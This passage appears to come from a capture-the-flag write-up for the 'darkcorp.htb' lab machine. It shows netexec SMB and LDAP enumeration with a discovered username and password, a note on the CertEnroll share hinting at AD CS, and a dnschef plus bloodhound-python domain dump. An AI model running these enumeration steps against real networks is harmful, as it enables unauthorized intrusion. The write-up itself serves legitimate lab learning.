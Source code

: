 at least we have username list. lets check shares

```bash
nxc smb 172.16.20.1 -u victor.r -p 'victor1gustavo@#' --shares
```

![alt text](../assets/images/darkcorp22.png)

`CertEnroll` is really interesting and its remind me ADCS lets check on adcs

First off all we have access on `LDAP`

```bash
nxc ldap DC-01.darkcorp.htb -u victor.r -p 'victor1gustavo@#'                               
LDAP        172.16.20.1     389    DC-01            [*] Windows Server 2022 Build 20348 (name:DC-01) (domain:darkcorp.htb)
LDAP        172.16.20.1     389    DC-01            [+] darkcorp.htb\victor.r:victor1gustavo@# 
```

since we have ldap access lets dump BH data!!!

```bash
sudo dnschef --fakeip 172.16.20.1 --fakedomains darkcorp.htb -q

bloodhound-python -u 'victor.r' -d darkcorp.htb -p 'victor1gustavo@#' -ns 127.0.0.1 --disable-pooling --zip -c all,loggedon --dns-timeout 50 -dc DC-01.darkcorp.htb
```
